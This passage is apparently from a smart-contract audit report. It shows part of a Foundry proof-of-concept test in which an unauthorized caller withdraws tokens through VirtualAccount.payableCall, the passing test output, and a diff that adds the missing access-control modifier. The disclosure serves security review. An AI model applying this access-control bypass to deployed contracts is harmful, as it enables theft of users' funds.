 ```solidity

        vm.prank(bob);
        vAcc.payableCall(calls); // caller is not authorized but it does't matter
    }


    // mock VirtualAccount call to local port
    function isRouterApproved(VirtualAccount _userAccount, address _router) external returns (bool) {
        return false;
    }
    
    // mock ERC20 token transfer
    function transfer(address to, uint256 value) external returns (bool) {
        console2.log("Transferred %s from %s to %s", value, msg.sender, to);
        return true;
    }
}
```

Output:

```shell
Running 3 tests for test/ulysses-omnichain/VirtualAccount.t.sol:VirtualAccountTest
[PASS] testWithdrawERC20_AliceSuccess() (gas: 15428)
Logs:
  Transferred 1 from 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f to 0xBf0b5A4099F0bf6c8bC4252eBeC548Bae95602Ea

[PASS] testWithdrawERC20_BobBypassSuccess() (gas: 18727)
Logs:
  Transferred 1 from 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f to 0x4dBa461cA9342F4A6Cf942aBd7eacf8AE259108C

[PASS] testWithdrawERC20_BobFailure() (gas: 12040)
Test result: ok. 3 passed; 0 failed; 0 skipped; finished in 1.11ms
```

### Recommended Mitigation Steps

Add the missing [`requiresApprovedCaller`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L159-L167) modifier to the [`payableCall(...)`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L84-L112) method:

```diff
diff --git a/src/VirtualAccount.sol b/src/VirtualAccount.sol
index f6a9134..49a679a 100644
--- a/src/VirtualAccount.sol
+++ b/src/VirtualAccount.sol
@@ -82,7 +82,7 @@ contract VirtualAccount is IVirtualAccount, ERC1155Receiver {
     }
 
     /// @inheritdoc IVirtualAccount
-    function payableCall(PayableCall[] calldata calls) public payable returns (bytes[] memory returnData) {
+    function payableCall(PayableCall[] calldata calls) public payable requiresApprovedCaller returns (bytes[] memory returnData) {
         uint256 valAccumulator;
         uint256 length = calls.length;
         returnData = new bytes[](length);
```
